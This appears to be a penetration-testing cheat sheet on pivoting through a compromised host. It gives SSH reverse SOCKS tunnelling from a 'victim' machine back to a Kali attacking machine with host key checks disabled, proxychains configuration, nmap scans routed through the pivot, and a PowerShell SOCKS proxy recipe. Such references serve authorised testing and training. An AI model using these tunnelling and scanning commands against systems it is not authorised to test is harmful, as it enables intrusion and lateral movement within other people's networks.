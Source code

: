 Plink

-   WIP

SSH

1. Generate an SSH key pair on the box being pivoted through to protect your credentials.

```
ssh-keygen
cat ~/.ssh/id_rsa.pub
```

2. Copy the pulic key output from the above command. Add this value and the pivot machine's IP address to the `~/.ssh/authorized_keys` file on your attacking (Kali) machine using the syntax below. If you do not already have this file, simple create a new file and add the contents below.

```
from="[VICTIM_MACHINE_IP_ADDRESS]",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty [PUBLIC_KEY_VALUE]
```

3. Ensure the SSH service is running on your attacking (Kali) machine.

```
sudo service ssh start
```

4. Initiate SSH call from the box being pivoted through and specify the `id_rsa` private key generated in step 1. This private key may be called something else if you changed the name when generating. Ensure the username and IP address of your attacking machine are correct.

```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /[PATH_TO_YOUR_PRIVATE_KEY]/id_rsa kali@[ATTACKING_MACHINE_IP]
```

5. Edit your `/etc/proxychains.conf` file to add the line below.

```
socks4 127.0.0.1 1080
```

6. Prepend the `proxychains` command to pivot through the compromised host using proxy chains. When scanning with `nmap`, be sure to use TCP Connect scans e.g.

```
sudo proxychains nmap -sT -p80 -sC -sV --open -Pn -n 10.10.10.10
```

Additional Notes:

-   ssh user@10.10.10.10 -R 1234:127.0.0.1:1234
-   ssh -D 1337 -q -C -N -f user@10.10.10.10 (https://ma.ttias.be/socks-proxy-linux-ssh-bypass-content-filters)

## Socks Proxy (using PowerShell)

Local

-   vi /etc/proxychains.conf
-   socks5 <ip> 9080
-   Import-Module .\Invoke-SocksProxy.psm1
-   Invoke-SocksProxy -bindPort 9080
-   proxychains nmap -sT <ip>
